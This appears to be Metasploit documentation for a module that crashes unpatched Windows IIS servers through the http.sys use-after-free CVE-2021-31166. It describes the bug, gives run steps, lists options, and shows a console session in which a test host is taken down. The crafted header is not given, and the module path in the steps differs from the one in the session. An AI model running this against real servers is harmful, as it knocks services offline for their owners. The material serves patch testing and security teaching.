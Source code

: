 ## Vulnerable Application
Windows 10 and Windows Server version 20H2 and 2004 servers who do not
have KB5003173 installed to address CVE-2021-31166 are affected.

The vulnerability occurs due to a use-after-free (UAF) bug in `http.sys`'s `UlpParseContentCoding`
function whereby a local `LIST_ENTRY` item has items appended to it but the `LIST_ENTRY` structure
is not `NULL`'d out after it finished being used. An attacker can abuse this to trigger a code path
that free's every entry of the local `LIST_ENTRY` structure, which will be linked to in the `Request`
object this function uses to handle the incoming request. The `Request` object will then be used later
on in the code resulting in a UAF vulnerability.

Note that whilst this exploit tries to target IIS servers, in theory any
component that uses `http.sys` could be vulnerable, including client programs
which use `http.sys` to connect to servers.

The module itself will use this vulnerability to cause a invalid memory access exception error in `http.sys`
by sending a request with a specially crafted `Accept-Encoding` header to the target IIS server. Since
`http.sys` is a kernel module, this will result in a BSOD on the target system. This will cause IIS to go down
for a period of time until the server reboots and IIS restarts again.

## Verification Steps
1. Start `msfconsole`
1. `use exploit/windows/iis/http_sys_accept_encoding_dos_cve_2021_31166`
1. `set RHOST <ip>`
1. `exploit`
1. **Verify** that the target server is down.

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

IP address or hostname of the target IIS server.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

The port on the target server where IIS is running.

### TARGETURI

 - **Optional**
 - Type: **string**
 - Default value: **/**

The base URL of the IIS install on the target server.

## Scenarios

### Windows 10 20H2 Build 19042.685 With IIS Installed
```text
 ~/git/metasploit-framework │ iis_dos_cve2022_21907 ?18  ./msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.1.34-dev-88b17b79fe               ]
+ -- --=[ 2209 exploits - 1171 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can use help to view all
available commands

[*] Starting persistent handler(s)...
msf payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166
msf auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) > show options
Module options (auxiliary/dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the IIS Server.
   VHOST                       no        HTTP server virtual host

msf auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) > set RHOSTS 172.22.216.145
RHOSTS => 172.22.216.145
msf auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) > exploit
[*] Running module against 172.22.216.145

[*] Connecting to target to make sure its alive...
[+] Successfully connected to target. Sending payload...
[+] Payload was sent to the target server.
[*] Checking that the server is down...
[+] Target is down.
[*] Auxiliary module execution completed
msf auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) >
```

![Metasploit demonstration](https://mauricelambert.github.io/vulnerability/images/CVE-2021-31166_demo.gif "Metasploit demonstration")
